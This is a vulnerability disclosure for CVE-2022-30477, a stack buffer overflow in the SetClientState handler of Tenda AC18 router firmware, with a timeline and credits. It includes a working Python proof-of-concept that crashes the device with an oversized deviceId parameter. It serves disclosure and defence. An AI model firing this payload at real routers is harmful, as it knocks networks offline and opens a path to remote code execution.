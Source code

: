 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetClientState` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetClientState`.

In function `formSetClientState` it reads user provided parameter `deviceId` into `v9`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetClientState`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetClientState?"
url += "limitEn=1&deviceId=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30477)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41849)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank).
